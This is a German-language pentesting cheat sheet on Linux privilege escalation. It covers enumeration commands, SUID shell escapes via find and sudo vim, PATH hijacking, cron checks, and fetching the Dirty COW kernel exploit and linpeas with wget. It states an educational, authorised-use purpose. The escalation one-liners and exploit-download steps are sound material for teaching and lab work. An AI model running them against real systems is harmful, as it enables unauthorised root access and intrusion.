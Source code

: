 # Linux Privilege Escalation




## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [1. System Checks & Enumeration](#1-system-checks--enumeration)
- [2. SUID-Binaries & Exploits](#2-suid-binaries--exploits)
- [3. Exploitable Binaries & Schwachstellen](#3-exploitable-binaries--schwachstellen)
- [4. Kernel Exploits (lokale Ausnutzung)](#4-kernel-exploits-lokale-ausnutzung)
- [Tools zur Privilege Escalation](#tools-zur-privilege-escalation)
- [Haftungsausschluss](#haftungsausschluss)



## Einleitung

Diese Datei dient als strukturiertes Cheat Sheet zur Privilege Escalation auf Linux-Systemen im Rahmen von Post-Exploitation. Sie hilft Pentestern und Sicherheitsanalysten, systematisch nach Wegen zu suchen, um aus eingeschränkten Benutzerrechten Root-Rechte zu erlangen. **Ausschließlich für legale Schulungszwecke gedacht.**



## 1. System Checks & Enumeration

### Grundlegende Informationen

```bash
uname -a              # Kernel- und Systeminformationen
cat /etc/os-release   # Distribution & Versionsinfo
id                    # Benutzer & Gruppen
whoami                # aktueller Nutzer
hostname              # Hostname anzeigen
```

### Berechtigungen

```bash
sudo -l               # Welche Befehle kann der Benutzer mit sudo ausführen?
groups                # Gruppenzugehörigkeit
```

### Filesystem nach Hinweisen durchsuchen

```bash
find / -perm -4000 2>/dev/null       # SUID-Binaries
find / -type f -perm -u=s 2>/dev/null
find / -writable -type d 2>/dev/null # beschreibbare Verzeichnisse
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## 2. SUID-Binaries & Exploits

SUID-Binaries werden mit den Rechten des Dateieigentümer (oft root) ausgeführt.

### Bekannte gefährliche SUIDs:

```bash
/usr/bin/vim
/usr/bin/find
/usr/bin/nmap
/usr/bin/perl
/usr/bin/python
```

### GTFOBins — SUID Missbrauch

GTFOBins ist eine Sammlung von Binaries, die sich zur Escalation nutzen lassen:
[https://gtfobins.github.io/](https://gtfobins.github.io/)

Beispiel (wenn `find` SUID ist):

```bash
find . -exec /bin/sh -p \; -quit
```



## 3. Exploitable Binaries & Schwachstellen

### PATH-Variable manipulieren

```bash
# Falls ein Skript ein nicht vollqualifiziertes Kommando wie 'ls' aufruft
# und root-Rechte hat:
export PATH=/tmp:$PATH
echo "/bin/sh" > /tmp/ls
chmod +x /tmp/ls
```

### Cronjobs & Writable Scripts

```bash
cat /etc/crontab
ls -la /etc/cron.*
# Suche nach Cronjobs, die als root laufen und beschreibbare Skripte ausführen
```

### Sudo ohne Passwort

```bash
# Wenn sudo -l sowas zeigt:
(root) NOPASSWD: /usr/bin/vim
sudo vim -c '!sh'
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## 4. Kernel Exploits (lokale Ausnutzung)

Falls keine "Low Hanging Fruits" über SUIDs/Sudo/etc., dann auf Kernel-Level prüfen:

### Kernel-Version ermitteln

```bash
uname -r
```

### Exploit-Sammlung

* [https://www.exploit-db.com/](https://www.exploit-db.com/)
* [https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)

> **Wichtig:** Nicht jeder Exploit funktioniert auf jeder Version. Führe sie in isolierter Umgebung aus (VM).

Beispiel: Dirty COW (CVE-2016-5195)

```bash
wget https://www.exploit-db.com/raw/40616
# Kompilieren und ausführen, um Root-Zugriff zu erlangen
```



## Tools zur Privilege Escalation

| Tool                                                                        | Zweck                                              |
| --------------------------------------------------------------------------- | -------------------------------------------------- |
| [linpeas.sh](https://github.com/carlospolop/PEASS-ng)                       | Automatisiertes Enumeration-Skript                 |
| [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester) | Zeigt Kernel-Exploits für das Zielsystem an        |
| pspy                                                                        | Prozesse und Cronjobs ohne Root anzeigen           |
| LES (LinEnum)                                                               | Systematische Prüfung auf Escalation-Möglichkeiten |

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```



## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---